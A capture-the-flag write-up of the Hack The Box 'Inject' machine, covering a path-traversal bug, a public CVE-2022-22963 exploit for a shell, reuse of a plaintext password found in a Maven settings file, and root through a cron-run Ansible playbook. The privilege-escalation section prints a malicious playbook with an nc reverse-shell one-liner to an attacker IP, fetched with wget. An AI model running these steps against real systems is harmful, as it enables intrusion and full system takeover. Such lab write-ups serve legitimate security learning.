







## Description

The box is available [here](https://app.hackthebox.com/machines/533). *Try it before read this article.*

- OS : Linux
- Release date : 11/03/23
- Difficulty : Easy
- Points : 20
- IP Adress : 10.10.11.204

You can add `Inject.htb` to the /etc/hosts file !

Now, we can start !

## Foothold

### Scanning and Enumeration

First, we use *Nmap* to discover the open ports :

```markdown
nmap -p- Inject.htb
```
We have the following result : 

```markdown
#Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-11 21:35 CEST
Nmap scan report for Inject.htb (10.10.11.204)
Host is up (0.030s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy

#Nmap done: 1 IP address (1 host up) scanned in 21.14 seconds
```

There are two open ports,
**Ssh** doesn't look interesting. Go on website with Firefox.

The `/upload` is very interesting. We can test the service.



### Exploit the LFI

Start *BurpSuite* and we can see that `show_image?img=` is vulnerable.



After check important files, we have nothing. But here we can list each directory : 

````markdown
# Java List Directories
It looks like if you have a Path Traversal in Java and you ask for a directory instead of a file, a listing of 
the directory is returned.
This won't be happening in other languages (afaik).
````
Source : https://book.hacktricks.xyz/pentesting-web/file-inclusion#java-list-directories

Now, there is a file which is important, called `pom.xml` : 



We can see some services with the version. The `SpringBook` is interesting because the version is vulnerable.

Just Googling the version and we found some exploit. I will use this one, avalable [here](https://github.com/J0ey17/CVE-2022-22963_Reverse-Shell-Exploit).

Execute the script with the command : 

````markdown
python3 exploit.py -u http://inject.htb:8080/
````

And we have a shell !

*More about CVE-2022-22963 :*

- https://nvd.nist.gov/vuln/detail/CVE-2022-22963
- https://github.com/me2nuk/CVE-2022-22963

## User 

We are logged as *Frank*. There is another user called *Phil*. 

In the `/home/frank/` directory, listing all files and hidden dirs, and we have a `settings.xml` file with the following content :

````markdown
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
````

Nice ! This looks like a password for *Phil*. Try to connect with **Ssh** but it doesn't work.

Upgrade your shell with :

````markdown
python3 -c 'import pty; pty.spawn("/bin/bash")'
````

Try `su phil` and enter the password : `DocPhillovestoInject123`. It works !

Navigate into the files and we have the user flag !



## Privesc 

We need to be root to read the last flag.

### Find the vulnerability

Basic enumeration with automated tools can help us like [*Linpeas*](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

We will use [*pspy64*](https://github.com/DominicBreuker/pspy) to see the services which are running in background.

The script return :

````markdown
/usr/bin/python3 /usr/local/bin/ansible-parallel /opt/automation/tasks/playbook_1.yml

/bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml
````

So there is a crontab which execute *Ansible* as root. In the `/opt/automation/tasks/` directory, we can write and create files because *Phil* is in the *Staff* group. 

### Exploit Ansible

This article will help us : https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/#privesc-with-automation-task

To privesc : 

- Create malicious file (Attacker)
- Start HTTP server (Attacker)
- Change name of original file
- Get the malicious file
- Wait

First, we need to craft a malicious file. The name will be `playbook_1.yml` :

````markdown
- hosts: localhost
  tasks:
  - name: Checking webapp service
    ansible.builtin.systemd:
      name: webapp
      enabled: yes
      state: started
  - name: Evil
    ansible.builtin.shell: |
      /usr/bin/rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {YOUR_IP} 1234 >/tmp/f
    become: true
````

Now, start a HTTP server with **python3** :

````markdown
python3 -m http.server
````

On the target, change name of the original file and use **wget** to download your payload : 

````markdown
mv playbook_1.yml pl.txt
wget http://10.10.14.206:8000/playbook_1.yml
````

Finally, wait ~ 2 min and you will receive a connection. *Don't forget to start a listener !*



### Root flag 

We are root ! We can read the root flag.



## Conclusion

The box was fun and pretty straight forward. 

Thanks for reading !

https://www.hackthebox.com/achievement/machine/356950/533
